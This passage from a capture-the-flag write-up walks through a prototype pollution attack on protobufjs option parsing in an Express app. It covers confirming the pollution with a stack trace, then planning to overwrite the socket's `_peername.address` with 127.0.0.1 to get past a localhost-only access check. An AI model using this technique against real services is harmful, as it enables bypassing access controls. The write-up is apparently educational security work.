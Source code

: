 ```shell
TypeError: Cannot assign to read only property 'prototype' of function 'function Object() { [native code] }'
    at setProp (/app/node_modules/protobufjs/src/util.js:183:23)
    at setProp (/app/node_modules/protobufjs/src/util.js:183:25)
    at Object.setProperty (/app/node_modules/protobufjs/src/util.js:199:12)
    at Type.setParsedOption (/app/node_modules/protobufjs/src/object.js:203:30)
    at setParsedOption (/app/node_modules/protobufjs/src/parse.js:681:20)
    at parseOption (/app/node_modules/protobufjs/src/parse.js:611:9)
    at parseCommon (/app/node_modules/protobufjs/src/parse.js:256:17)
    at parseType_block (/app/node_modules/protobufjs/src/parse.js:309:17)
    at ifBlock (/app/node_modules/protobufjs/src/parse.js:290:17)
    at parseType (/app/node_modules/protobufjs/src/parse.js:308:9)
bar
```

**Although the application threw a `TypeError` exception**, our `foo` object attribute has been polluted!

Now that we confirmed the Prototype Pollution is working, let's move on!

**After exploring all the attributes in object `req.conneciton`, I found the `_peername` private attribute:**
```javascript
[...]
_peername: { address: '::ffff:172.17.0.1', family: 'IPv6', port: 45914 },
[...]
```

Uh... In this attribute, the value's object attribute `address` is the same as the `req.connection.remoteAddress`:

```javascript
console.log(req.connection.remoteAddress);
// ::ffff:172.17.0.1
```

Hmm... What's that attribute `_peername`...

When we Google "express js \_peername", we can find [this StackOverflow post](https://stackoverflow.com/questions/29462807/node-js-issues-with-request-client-peername-address-when-getting-client-ip):

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/bi0sCTF-2024/images/Pasted%20image%2020240226140235.png)

In that post, it says:

> "So it seems that the order is important - **request.client.\_peername does not get instantiated before request.connection.remoteAddress is executed**."

Hmm... Looks like **when `remoteAddress` is executed, the `_peername` will get instantiated**.

Ah ha! What if, I pollute the `_peername`'s attribute `address` to `127.0.0.1`?

Let's try that!

**Server:**
```javascript
[...]
const restrictToLocalhost = (req, res, next) => {
  console.log(req.connection._peername);

  const remoteAddress = req.connection.remoteAddress;

  console.log(req.connection._peername);

  if (remoteAddress === '::1' || remoteAddress === '127.0.0.1' || remoteAddress === '::ffff:127.0.0.1') {
    next();
  } else {
    res.status(403).json({ Message: 'Access denied' });
  }
```
